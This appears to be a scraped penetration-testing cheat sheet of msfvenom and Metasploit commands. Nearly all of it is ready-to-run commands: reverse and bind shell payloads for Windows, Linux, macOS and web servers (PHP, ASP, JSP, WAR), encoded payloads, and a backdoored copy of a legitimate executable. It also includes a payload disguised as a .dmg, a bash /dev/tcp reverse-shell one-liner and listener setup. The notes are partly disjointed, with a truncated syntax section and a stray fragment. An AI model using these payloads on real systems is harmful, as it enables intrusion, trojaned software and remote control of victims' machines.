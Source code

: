  msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015. The advantages of msfvenom are: One single tool Standardized command line options Increased speed…

The advantages of msfvenom are:

    One single tool
    Standardized command line options
    Increased speed


[Creating a Payload]

- msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python :: Windows
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > shell.exe  :: Windows
- msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=443 > pyterpreter.py :: MAC OS X  - 100%
- msfvenom -a x86 --platform OSX -p osx/x86/isight/bind_tcp -b "\x00" -f elf -o /tmp/osxt2 :: Mac OS X
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.0.0.4  LPORT=4444 -f macho > osx_cam.dmg 
- msfvenom -a x86 --platform windows -p windows/messagebox TEXT="MSFU Example" -f raw > messageBox
- msfvenom -c messageBox2 -a x86 --platform Windows -p windows/shell/bind_tcp -f exe -o cookies.exe
- msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
- msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=consulting.example.org LPORT=4443 > metasploit_https.exe

=======
 OS X
=======

- msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=443 > pyterpreter.py

if you wanted to execute a command to make the Mac text-to-speech command say something on the target computer, you would use the following in Meterpreter

- execute -f /bin/usr/say -a "hey there buddy"
- bash -i >& /dev/tcp/10.0.0.4/443 0>&1 2>&1

=========
 Sintax
=========

-p :: PAYLOAD
-f 

[Establishing a Listener]

- MSFCONSOLE
    - use /exploit/multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHOST <IP>
	- set LPORT 4444
	- set ExitOnSession false
	- exploit -j -z
	- sessions -l
	- sessions -i 2

======================
 Automating Payload
======================

- msfconsole -r msfremote_shell.rc

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 443
set ExitOnSession false
exploit -j

[OUTPUT]

[*] Exploit running as background job.

[*] Started reverse TCP handler on X.X.X.179:4444 
[*] Starting the payload handler...




Active assets	
	- Identified 
	- Classified
	- Determine the objectives and priorities


A list of the most useful msfvenom payloads from Metasploit.
-------------------------------------------------------------

List payloads

msfvenom -l

Binaries

Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads

Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
https://www.offensive-security.com/metasploit-unleashed/msf-os/
http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
http://netsec.ws/?p=331
